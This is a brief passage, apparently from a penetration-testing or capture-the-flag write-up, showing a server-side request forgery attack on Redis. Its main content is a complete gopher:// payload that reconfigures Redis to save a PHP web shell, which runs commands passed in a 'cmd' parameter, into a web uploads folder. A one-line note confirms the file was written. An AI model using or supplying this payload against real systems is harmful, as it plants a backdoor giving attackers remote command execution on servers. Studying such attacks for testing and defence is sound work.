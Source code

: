 ![](images/30.png)

After sending the request, it is verified that the file has been successfully written in the indicated folder.

```
gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/var/www/html/uploads%0D%0ACONFIG%20SET%20dbfilename%20webshell2.php%0D%0ASET%20webshell2%20%22%3C%3Fphp%20echo%20exec%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%0D%0ASAVE
```
